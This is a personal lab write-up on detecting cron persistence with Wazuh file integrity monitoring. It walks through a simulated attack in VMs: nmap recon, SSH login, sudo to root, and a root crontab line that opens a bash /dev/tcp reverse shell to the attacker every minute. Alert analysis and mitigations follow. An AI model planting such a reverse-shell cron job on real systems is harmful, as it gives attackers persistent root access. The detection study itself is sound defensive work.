# Cron-Based Persistence Attack Detection using Wazuh FIM

## **Date:** May 21, 2026

This is a hands-on lab where I configured Wazuh FIM to monitor cron directories in realtime, then simulated a full persistence attack — gaining SSH access to a victim Ubuntu machine, escalating to root, planting a malicious cron job that fires a reverse shell back to my Kali attacker every minute. Wazuh caught the cron modification, file additions, and the crontab edit events. Done in a controlled VM environment for learning purposes.

---

## Lab Environment

| Role | OS | IP Address |
|------|----|----|
| Attacker | Kali Linux | 10.219.27.131 |
| Victim | Ubuntu 26.04 | 10.219.27.208 |
| Wazuh Server | Kali (Docker) | 10.219.27.37 |

---

## Objective

- Configure Wazuh FIM to monitor cron persistence directories in realtime
- Gain SSH access to the victim and escalate to root
- Enumerate the cron environment to understand scheduling paths
- Plant a malicious cron job that establishes a reverse shell
- Catch the persistence and reverse shell execution through Wazuh
- Map everything to MITRE ATT&CK

---

## Tools Used

**Wazuh SIEM** — Core detection platform. I configured realtime FIM on all major cron directories so any crontab modification fires an alert immediately.

**Nmap** — Used from the attacker to identify open services on the victim before attempting access.

**SSH** — Entry point to the victim. Simulates stolen or weak credentials being used for initial access.

**Netcat (nc)** — Used on the attacker side to set up the listener that receives the reverse shell connection from the victim.

**Crontab** — The Linux task scheduler. I added a malicious entry to root's crontab to execute a bash reverse shell every minute.

---

## Attack Architecture Flow

```
Wazuh FIM Configuration
        ↓
Reconnaissance (Nmap)
        ↓
SSH Initial Access
        ↓
Privilege Escalation (sudo -i)
        ↓
System Enumeration (whoami, hostnamectl)
        ↓
Cron Environment Enumeration (/etc/crontab)
        ↓
Cron Persistence Creation (reverse shell payload)
        ↓
Reverse Shell Connection Established
        ↓
Wazuh Detection (rule.id: 2833, 2834, 554, 553)
        ↓
Threat Hunting & Alert Analysis
```

---

## Wazuh FIM Configuration

Before running any attack, I first hardened the detection side. Wazuh doesn't monitor cron directories by default, so I added them manually with realtime enabled.

On the Ubuntu victim:

```bash
sudo gedit /var/ossec/etc/ossec.conf
```

**Screenshot — Editing Wazuh Cron FIM Config:**


Opened the Wazuh agent config using `gedit`. The terminal showed the gedit process starting with a minor GTK warning about Peas repository — harmless, the editor opened fine. This is where I added the cron directory monitoring entries.

**Screenshot — Cron Directories Added:**



Inside `ossec.conf`, I added realtime FIM for all major cron persistence locations:

```xml
<directories realtime="yes">/etc/crontab</directories>
<directories realtime="yes">/etc/cron.d</directories>
<directories realtime="yes">/var/spool/cron/crontabs</directories>
<directories realtime="yes">/etc/cron.hourly</directories>
<directories realtime="yes">/etc/cron.daily</directories>
<directories realtime="yes">/etc/cron.weekly</directories>
<directories realtime="yes">/etc/cron.monthly</directories>
```

Every cron persistence path is now covered. Any file added, modified, or deleted in these directories will trigger an alert immediately.

### Wazuh Agent Restart & Verification

```bash
sudo systemctl restart wazuh-agent
sudo systemctl status wazuh-agent
sudo tail -f /var/ossec/logs/ossec.log
```

**Screenshot — Restart Status Logs Wazuh:**



After restarting, `systemctl status` showed `active (running)` since May 21, 2026 at 15:59:29 IST. The CGroup tree confirmed all five Wazuh processes are up: `wazuh-execd`, `wazuh-agentd`, `wazuh-syscheckd`, `wazuh-logcollector`, `wazuh-modulesd`. The `ossec.log` tail at the bottom is the key part — the last line reads:

```
wazuh-syscheckd: INFO: (6012): Real-time file integrity monitoring started.
```

That confirmed realtime FIM was active on all the cron directories I just added.

---

## Network Verification

### Attacker IP

```bash
ip a
```

**Screenshot — Attacker IP:**



Kali attacker is on `10.219.27.131` via `eth0`. This is the IP I'll use for the reverse shell listener and the source IP visible in all SSH and connection logs.

---

## Phase 1 — Reconnaissance

```bash
nmap -sV 10.219.27.208
```

**Screenshot — Nmap Cron Persistence Recon Scan:**



Scanned the victim from Kali. Three ports came back open:

- **Port 21 — vsftpd 3.0.5** — FTP from a previous lab, not used here
- **Port 22 — OpenSSH 10.2p1** — the entry point for this attack
- **Port 80 — Apache httpd 2.4.66** — web server, not targeted here

SSH is open. That's the way in.

---

## Phase 2 — SSH Initial Access

```bash
ssh kishansai@10.219.27.208
```

**Screenshot — SSH Access To Victim:**



Connected from Kali and authenticated with the password. The welcome banner confirmed `Ubuntu 26.04 LTS (GNU/Linux 7.0.0-15-generic x86_64)`. The prompt changed to `kishansai@kishansai-VirtualBox:~$`. Shell access confirmed. The `Last login` entry shows `Thu May 21 11:11:52 2026 from 10.219.27.131` — that's from my earlier defacement lab session on the same machine.

---

## Phase 3 — System Enumeration

```bash
whoami
hostnamectl
```

**Screenshot — Victim System Information:**



Ran `whoami` — came back as `kishansai`, a regular user. Then ran `hostnamectl` to collect system info. Key details:

- **Hostname:** kishansai-VirtualBox
- **OS:** Ubuntu 26.04 LTS
- **Kernel:** Linux 7.0.0-15-generic
- **Architecture:** x86-64
- **Virtualization:** oracle (VirtualBox)

This is exactly what an attacker maps out before deploying persistence — understanding the OS, kernel, and environment helps pick the right payload.

---

## Phase 4 — Privilege Escalation

```bash
sudo -l
sudo -i
```

**Screenshot — Main Crontab Enumeration** (shows the escalation and cron read):



First ran `sudo -l` to check what privileges `kishansai` has. The output showed `(ALL : ALL) ALL` — full unrestricted sudo access. I then ran `sudo -i` to drop into a root shell. The prompt changed to `root@kishansai-VirtualBox:~#`. Root access confirmed.

---

## Phase 5 — Cron Environment Enumeration

```bash
cat /etc/crontab
```

Still in the same screenshot above, after getting root I read the system crontab. The output showed the default scheduling structure:

| Schedule | Directory |
|---|---|
| 17 * | `/etc/cron.hourly` |
| 25 6 | `/etc/cron.daily` |
| 47 6 | `/etc/cron.weekly` |
| 52 6 | `/etc/cron.monthly` |

The `SHELL=/bin/sh` and `PATH` entries confirmed the execution environment. Reading `/etc/crontab` first is standard attacker procedure — it shows naming conventions, execution context, and which paths cron trusts, which helps write a payload that blends in.

---

## Phase 6 — Cron Persistence Creation

```bash
crontab -e
```

**Screenshot — Reverse Shell Cron Persistence:**



Ran `crontab -e` as root which opened the root crontab in nano (`/tmp/crontab.5IpQdb/crontab`). At the bottom of the file I added the malicious entry:

```bash
* * * * * /bin/bash -c 'bash -i >& /dev/tcp/10.219.27.131/4444 0>&1'
```

What this does: every minute, cron runs bash with an interactive session (`-i`) that redirects stdin, stdout, and stderr through a TCP connection to my Kali machine at `10.219.27.131` on port `4444`. The result is a full shell delivered back to whoever is listening on that port. Saved and exited nano. The cron job is now active on root's crontab.

---

## Phase 7 — Reverse Shell Established

On the Kali attacker, I started the listener before the cron job triggered:

```bash
nc -lvnp 4444
```

**Screenshot — Reverse Shell Connection Established:**



Within one minute, the cron job fired and the connection came in:

```
listening on [any] 4444 ...
connect to [10.219.27.131] from (UNKNOWN) [10.219.27.208] 34296
```

Then immediately got a shell:

```
root@kishansai-VirtualBox:~#
```

The two bash warnings (`cannot set terminal process group` and `no job control in this shell`) are expected — this is a non-interactive reverse shell, which is normal. The important part is the `root@` prompt. The cron persistence worked. Root shell received without any additional login.

---

## Wazuh Detection

### Cron Modification Alert — Discover View

**Screenshot — Root Crontab Modification Alert:**



In Wazuh Discover, searched for `cron`. 7 hits came back, all spiked at the right end of the histogram — exactly when I ran `crontab -e` and the job fired. The top two events show:

- `rule.id: 2833` — "Root's crontab entry changed" at level 8
- `rule.description: Root's crontab entry changed`
- `rule.mitre.id: T1053.003`
- `rule.mitre.tactic: Execution, Persistence, Privilege Escalation`
- `rule.mitre.technique: Cron`
- `full_log: (root) REPLACE (root)` — confirms root's crontab was replaced

Below those, the syscheck events show `syscheck.event: deleted` and `syscheck.event: added` on `/var/spool/cron/crontabs/` paths — Wazuh tracked the temp file crontab used during the edit and the final written file.

### Cron Modification Alert — Document View

**Screenshot — Root Crontab Modification Alert Doc:**



Opened the alert document for the Rule 2833 event. Key fields:

| Field | Value |
|---|---|
| `agent.id` | 001 |
| `agent.ip` | 10.219.27.208 |
| `agent.name` | kishansai-VirtualBox |
| `rule.id` | 2833 |
| `rule.level` | 8 |
| `rule.description` | Root's crontab entry changed. |
| `rule.mitre.id` | T1053.003 |
| `rule.mitre.tactic` | Execution, Persistence, Privilege Escalation |
| `rule.mitre.technique` | Cron |
| `rule.firedtimes` | 2 |
| `predecoder.program_name` | crontab |
| `location` | /var/log/syslog |
| `full_log` | (root) REPLACE (root) |
| `rule.pci_dss` | 10.2.7, 10.6.1, 10.2.2 |
| `rule.hipaa` | 164.312.b |
| `rule.gdpr` | IV_35.7.d, IV_32.2 |
| `rule.tsc` | CC6.8, CC7.2, CC7.3 |

The `full_log` line `(root) REPLACE (root)` is the syslog entry generated when root's crontab is overwritten. `rule.firedtimes: 2` means this is the second time this alert fired in the session — matching the two times I edited the crontab.

### Threat Hunting View

**Screenshot — Root Crontab Threat Hunt:**



In Threat Hunting, filtered for `cron`. 7 hits, all in one tight cluster. Reading the event list top to bottom tells the complete story:

| Time | Rule ID | Description |
|---|---|---|
| 16:10:44 | 2833 | Root's crontab entry changed |
| 16:10:44 | 2833 | Root's crontab entry changed |
| 16:10:43 | 553 | File deleted |
| 16:10:43 | 554 | File added to the system |
| 16:10:43 | 554 | File added to the system |
| 16:08:24 | 2834 | Crontab opened for editing |
| 16:08:24 | 2834 | Crontab opened for editing |

The sequence is exactly right: `2834` fired when I opened `crontab -e` at 16:08. Then `553/554` fired when crontab wrote the temp file and replaced the original. Then `2833` fired twice confirming root's crontab was changed. Every step of the persistence operation is logged.

---

## Logs Generated

All alerts stored in index `wazuh-alerts-4.x-2026.05.21`.

### Rule IDs Observed

| Rule ID | Description | Level |
|---|---|---|
| 2834 | Crontab opened for editing | 5 |
| 553 | File deleted | 7 |
| 554 | File added to the system | 5 |
| 2833 | Root's crontab entry changed | 8 |

### Syslog Entry (full_log)

```
2026-05-21T16:10:43.521826+05:30 kishansai-VirtualBox crontab[15059]: (root) REPLACE (root)
```

### Crontab Open Entry

```
May 21 10:40:43 kishansai-VirtualBox crontab[15059]: (root) REPLACE (root)
May 21 10:08:24 kishansai-VirtualBox crontab[XXXX]: (root) BEGIN EDIT (root)
```

---


## What I Observed

**Wazuh caught every stage of the crontab edit.** Rule 2834 fired when I opened `crontab -e`. Rules 553 and 554 fired during the file replacement. Rule 2833 fired when the final crontab was written. The full edit lifecycle is visible in order.

**The syscheck events complemented the syslog events.** Syslog caught the high-level crontab action. FIM caught the actual file operations at `/var/spool/cron/crontabs/`. Together they give both the user-facing action and the filesystem-level proof.

**Root crontab modification is immediately obvious.** Rule 2833 at level 8 with MITRE T1053.003 auto-tagged makes it unmissable in any SOC dashboard. An analyst would spot this within seconds.

**The reverse shell came back automatically.** Once the cron job was written, no further attacker interaction was needed. Every minute, root on the victim connects back to the attacker listener. That's exactly what makes cron persistence dangerous — it's self-healing.

---

## Mitigation

- **Restrict sudo access** — `kishansai` having `(ALL:ALL) ALL` sudo is the root cause. Limit sudo to only required commands.
- **SSH key-only authentication** — Disabling password auth removes the initial access vector entirely.
- **Wazuh active response on Rule 2833** — Configure an automated alert or script to fire the moment root's crontab is modified, reducing dwell time.
- **Auditd cron monitoring** — Add Linux auditd rules on `/var/spool/cron/crontabs/` for a second independent detection layer.
- **Block outbound /dev/tcp connections** — Egress firewall rules blocking outbound connections from the server to unexpected IPs would have killed the reverse shell even if the cron job ran.

---

## Conclusion

Configured Wazuh FIM on all major cron persistence paths, performed a full attack chain — recon, SSH access, root escalation, cron enumeration, reverse shell persistence — and Wazuh detected every step. Rule 2834 caught the crontab being opened, Rule 2833 caught root's crontab being changed, and the FIM syscheck events tracked the actual file operations. The reverse shell connected back automatically within one minute of planting the cron job, proving the persistence mechanism worked. The full attack chain from first SSH login to persistent root shell is visible in Wazuh.

---

## Commands Reference

### Victim — Wazuh FIM Config

```bash
sudo gedit /var/ossec/etc/ossec.conf
sudo systemctl restart wazuh-agent
sudo systemctl status wazuh-agent
sudo tail -f /var/ossec/logs/ossec.log
```

```xml
<syscheck>
  <directories realtime="yes">/etc/crontab</directories>
  <directories realtime="yes">/etc/cron.d</directories>
  <directories realtime="yes">/var/spool/cron/crontabs</directories>
  <directories realtime="yes">/etc/cron.hourly</directories>
  <directories realtime="yes">/etc/cron.daily</directories>
  <directories realtime="yes">/etc/cron.weekly</directories>
  <directories realtime="yes">/etc/cron.monthly</directories>
</syscheck>
```

### Attacker — Recon

```bash
ip a
nmap -sV 10.219.27.208
```

### Attacker — Access

```bash
ssh kishansai@10.219.27.208
```

### Victim — Enumeration & Escalation

```bash
whoami
hostnamectl
sudo -l
sudo -i
cat /etc/crontab
```

### Victim — Persistence

```bash
crontab -e
# Add: * * * * * /bin/bash -c 'bash -i >& /dev/tcp/10.219.27.131/4444 0>&1'
```

### Attacker — Reverse Shell Listener

```bash
nc -lvnp 4444
```

### Wazuh — Investigation Filters

```
Search: cron
Rule filter: rule.id: 2833
Time range: Last 24 hours
```
